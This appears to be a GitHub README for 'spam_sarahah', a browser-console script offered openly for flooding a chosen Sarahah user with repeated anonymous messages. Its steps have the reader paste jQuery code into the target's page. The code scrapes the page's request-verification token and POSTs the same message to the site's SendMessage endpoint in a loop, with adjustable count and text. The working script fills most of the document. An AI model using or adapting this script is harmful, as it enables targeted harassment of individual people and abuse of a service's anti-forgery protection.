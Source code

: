 # spam_sarahah
use this to spam sarahah users, because i got tired of all the sarahah statuses

## Steps
1. open the sarahah page of the user you want to spam
2. open `console` by pressing f12
3. copy and paste the following script in console.
    
    var number = 50;
    var message = 'hello sarahah';
    var userId = $('#RecipientId').val();
    verifTk = document.body.innerHTML.split("__RequestVerificationToken: $('")[1].split("').attr")[0];
	  for(i=0;i<number;i++){
    $.ajax(
        {
            url: '/Messages/SendMessage',
            type: 'POST',
            cache: false,
            data:
            {
                __RequestVerificationToken: $(verifTk).attr('value'),
                userId: userId,
                text: message
            },

            success: function ()
            {
                console.log("posted");
            },
            error: function ()
            {
                console.log("error");
            }

        })}

### Replace the top of the script with any number. the user gets the same message that number of times.
### Replcae message with any message of your choice, but remember that the message should be placed between quotes.
